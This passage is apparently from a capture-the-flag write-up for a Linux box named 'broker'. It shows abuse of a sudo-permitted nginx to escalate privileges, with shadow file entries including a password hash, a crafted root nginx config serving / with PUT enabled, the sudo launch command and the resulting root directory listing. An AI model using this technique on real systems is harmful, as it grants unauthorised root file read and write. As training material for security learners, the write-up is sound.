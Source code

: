     fwupd-refresh:*:19405:0:99999:7:::
    usbmux:*:19474:0:99999:7:::
    lxd:!:19474::::::
    activemq:$y$j9T$5eMce1NhiF0t9/ZVwn39P1$pCfvgXtARGXPYDdn2AVdkCnXDf7YO7He/x666g6qLM5:19666:0:99999:7:::
    _laurel:!:19667::::::
    

This is enough to get the flag and solve the box:

    
    
    activemq@broker:~$ curl localhost:1337/root/root.txt
    8a207d68************************
    

#### File Write

nginx can also handle PUT requests which write files. I’ll update the config
to include enabling PUTs:

    
    
    user root;
    events {
        worker_connections 1024;
    }
    http {
        server {
            listen 1338;
            root /;
            autoindex on;
            dav_methods PUT;
        }
    }
    

I’ll also need to change the port. I don’t have a way to kill the running
server on 1337, and if I try to run with the same port, nginx will fail to
listen and abort.

Now I run this:

    
    
    activemq@broker:/dev/shm$ sudo /usr/sbin/nginx -c /dev/shm/0xdf.conf 
    

And a new server is listening on 1338, returning a file listing for `/`:

    
    
    activemq@broker:/dev/shm$ curl localhost:1338
    <html>
    <head><title>Index of /</title></head>
    <body>
    <h1>Index of /</h1><hr><pre><a href="../">../</a>
    <a href="bin/">bin/</a>                                               06-Nov-2023 01:10                   -
    <a href="boot/">boot/</a>                                              06-Nov-2023 01:38                   -
    <a href="dev/">dev/</a>                                               08-Nov-2023 17:53                   -
    <a href="etc/">etc/</a>                                               07-Nov-2023 06:53                   -
    <a href="home/">home/</a>                                              06-Nov-2023 01:18                   -
    <a href="lib/">lib/</a>                                               06-Nov-2023 00:57                   -
    <a href="lib32/">lib32/</a>                                             17-Feb-2023 17:19                   -
    <a href="lib64/">lib64/</a>                                             05-Nov-2023 02:36                   -